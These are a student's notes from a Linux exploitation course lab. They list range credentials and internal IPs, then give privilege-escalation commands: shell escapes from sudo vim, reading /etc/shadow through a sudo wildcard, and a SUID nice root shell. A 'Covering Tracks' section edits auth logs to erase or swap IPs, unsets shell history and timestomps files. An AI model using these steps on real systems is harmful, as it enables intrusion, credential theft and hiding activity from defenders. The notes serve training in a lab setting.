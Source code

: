 # Linux Exploitation
# https://sec.cybbh.io/public/security/latest/lessons/lesson-10-linux-exploit_sg.html#_discuss_what_is_privilege_escalation
## Stack Info
```
--Stack Number
  5

--Username
CODA-503-M

--Password
Gx1LjlSgOgQJJMy

Boxes
Student - Password
--Linux ops
10.50.31.135
 
--Windows
xfreerdp /v:10.50.24.133 /u:student /dynamic-resolution +glyph-cache +clipboard
10.50.24.133

--Jump
10.50.27.155

--Password
Gx1LjlSgOgQJJMy

--CTFd
http://10.50.20.30:8000/resources
```
## Privilege Escalation
## https://gtfobins.github.io/ - break out of restricted shells
```
sudo -l

## User student may run the following commands
## vim /etc/ssh/sshd_config (or whatever file)

sudo vim /etc/ssh/sshd_config

## in vim

:!/bin/bash
```
## SUID/GUID 
```
find / -type f -perm /4000 -ls 2>/dev/null   #FIND SUID ONLY FILES
find / -type f -perm /2000 -ls 2>/dev/null   #FIND SGID ONLY FILES
find / -type f -perm /6000 -ls 2>/dev/null   #FIND SUID/SGID FILES
```
# Insecure Permissions
## CRON
```
#Cron daemon runs as root
https://crontab.guru/

/var/spool/cron/crontabs  #User level jobs
/etc/crontab              #System level jobs
/etc/cron.*               #Hourly,Daily,Weekly

crontab -l                #lists for current user
contab -u <user> -l       #lists for a specified user

find /var/spool/cron/crontabs /etc/cron* -writable -ls
#Finds any cron file or directory that can be written to.

find /etc/cron* -type f -exec grep -Eo '/.*' {} \;
#Find potential path and filename by looking for any entry that starts with a slash
```
## World-Writable Files and Directories
```
find / -type f -perm /2 -o -type d -perm /2 2>/dev/null
#Search for any file or directory that is writable by the context "other"

find / -type f -writable -o -type d -writable 2>/dev/null
#Search for any file or directory that is writable by the current user
```
## Vunerable Services 
```
ps aux | grep root   # root processes can be identified

netstat -antu 
#or                  # Open sockets
ss -antu
```
# Covering Tracks 
```
/var/log/syslog OR /var/log/messages
/var/log/secure OR /var/log/auth.log

ps -p 1
systemd = systemd
init = systemV

unset HISTFILE

grep -v "192.168.0.55" /var/log/secure > /tmp/secure.clean; mv /tmp/secure.clean /var/log/secure; touch -t 02180455 /var/log/secure

#SED Replace
cat auth.log > auth.log2; sed -i 's/10.16.10.93/136.132.1.1/g' auth.log2; cat auth.log2 > auth.log

#GERP REMOVE

#GREP (Remove)
egrep -v '10:49*| 15:15:15' auth.log > auth.log2; cat auth.log2 > auth.log; rm auth.log2


# Timestomp
    Access: updated when opened or used (grep, ls, cat, etc)

    Modify: update content of file or saved

    Change: file attribute change, file modified, moved, owner, permission

touch -c -t 201603051015 1.txt   # Explicit
touch -r 3.txt 1.txt             # Reference
```
# Rsyslog
```
    Newer Rsyslog references /etc/rsyslog.d/* for settings/rules

    Older version only uses /etc/rsyslog.conf

    Find out
    grep "IncludeConfig" /etc/rsyslog.conf
```
## Sudo Demo 1 Notes
```
sudo -l
# Check GTFObins to see what abilities we have to get a shell
sudo apt-get changelog apt
#!/bin/sh or #!/bin/bash
```
## Sudo Demo 2 Notes
```
sudo -l
# User may run  /use/bin/cat /var/log/syslog*
# The * means anything can follow syslog^
sudo cat /var/log/syslog /etc/shadow
```
## SUID Demo Notes
```
find / -type f -perm /6000 -ls 2>/dev/null
## found /usr/bin/nice 
## Determine what files/commands are vunerable
## Search GTFObins for exploits
nice /bin/sh -p
```
